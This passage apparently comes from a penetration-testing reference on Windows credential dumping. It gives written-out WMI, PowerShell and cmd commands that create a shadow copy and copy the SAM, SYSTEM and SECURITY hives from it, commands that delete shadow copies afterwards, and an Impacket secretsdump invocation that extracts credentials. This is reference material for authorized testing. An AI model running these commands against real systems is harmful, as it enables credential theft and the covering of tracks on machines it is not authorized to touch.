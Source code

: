 If such hardening has been implemented on the targeted system, a `shadow copy`
volume can be leveraged to copy the `HKLM\SAM`, `HKLM\SYSTEM`, and
`HKLM\SECURITY` registry hives from disk (as direct copy is not possible due to
the files being locked by continued access).

The `Windows Management Instrumentation (WMI)` class `win32_shadowcopy` can be
used to create a `shadow copy` volume and presents the advantage of being
built-in on both Windows workstations and servers. Alternatively, the Windows
built-in `Volume Shadow Copy Service administrative (vssadmin)` utility may be
used on Windows servers (as the required `vssadmin`'s `create` command is only
available on the Windows Servers operating systems). Refer to the
`[ActiveDirectory] ntds.dit dumping` note for more information on how to
create a `shadow copy` volume using `vssadmin`.

```
# Either commands create the shadow copy volume.
wmic shadowcopy call create Volume='C:\'
powershell.exe -Command (gwmi -List win32_shadowcopy).Create('C:\', 'ClientAccessible')

# Lists the shadow copy volume configured in order to retrieve the created shadow copy ID.
wmic shadowcopy
Get-WmiObject Win32_ShadowCopy | ForEach-Object { $_ }

cmd.exe /c "copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy<ID>\Windows\System32\config\SAM <EXPORTED_SAM>"
cmd.exe /c "copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy<ID>\Windows\System32\config\SYSTEM <EXPORTED_SYSTEM>"
cmd.exe /c "copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy<ID>\Windows\System32\config\SECURITY <EXPORTED_SECURITY>"

# Will delete all instances of shadowcopy volumes.
wmic delete

# Deletes the specified shadow copy volume.
Get-WmiObject Win32_ShadowCopy | ForEach-Object { If ($_.ID -like "<GUID>") { $_.Delete() }}

# Alternatively will prompt for confirmation before deleting a shadow copy volume but require to be started through an interactive command prompt.
wmic
wmic:root\cli> shadowcopy delete
```

###### Credentials extraction from the registry hives

The `Impacket`'s `secretsdump.py` Python script can be used to extract the
credentials from the `HKLM\SAM` and `HKLM\SECURITY` hives. `secretsdump.py`
supports the new encryption scheme introduced in the `Windows 10 Anniversary
update`.

```
secretsdump.py -sam <SAM> -system <SYSTEM> [-security <SECURITY>] LOCAL
```

*Deprecated*
